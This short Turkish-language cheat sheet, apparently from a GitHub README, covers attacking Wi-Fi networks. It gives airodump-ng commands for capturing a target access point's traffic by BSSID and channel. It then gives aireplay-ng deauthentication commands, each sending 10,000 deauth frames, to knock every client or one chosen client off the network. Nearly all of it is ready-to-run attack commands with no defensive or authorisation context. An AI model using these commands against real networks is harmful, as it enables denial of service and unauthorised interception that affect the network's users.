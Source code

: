 ### Ağlar İle İlgili Bilgi Toplama

~iwconfig //monitor moda geç kontrol
~airodump-ng wlan0mon //ağların bilgileri

~airodump-ng --channel 9 --bssid E4:C3:2A:B7:23:90 --write airodumptest wlan0mon //channel ve mac adresi bilinmeli

## Ağdan Atma

--Tüm Cihazları Ağdan Atma--

~aireplay-ng --deauth 10000 -a E4:C3:2A:B7:23:90 wlam0mon

--Belirli Cihazları Ağdan Atma--

~aireplay-ng --deauth 10000 -a E4:C3:2A:B7:23:90 -c {atmak istediğimiz ağın mac adresi} wlam0mon

